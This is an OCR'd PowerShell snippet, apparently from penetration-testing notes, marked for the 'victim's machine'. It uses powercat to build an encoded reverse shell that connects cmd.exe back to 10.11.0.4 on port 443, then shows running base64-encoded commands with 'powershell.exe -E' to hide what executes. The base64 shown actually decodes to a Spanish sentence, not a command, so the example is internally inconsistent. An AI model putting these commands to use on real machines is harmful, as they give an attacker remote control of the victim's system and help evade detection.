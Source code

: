 ```powershell
#Victim's machine
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge> encodedreverse.ps1
powershell.exe -E U2luIGNvbm9jaW1pZW50bywgbGEgaGFiaWxpZGFkIG5vIHNlIHB1ZWRlIGVuZm9jYXIuIFNpbiBoYWJpbGlkYWQsIGxhIGZ1ZXJ6YSBubyBwdWVkZSBzZXIgZWplcmNpZGEgeSBzaW4gZnVlcnphLCBlbCBjb25vY2ltaWVudG8gbm8gcHVlZGUgc2VyIGFwbGljYWRvLg==
#This way we profit the PowerShell's ability to execute base64 encoded code. The -E flags allow us to execute encoded commands.
```


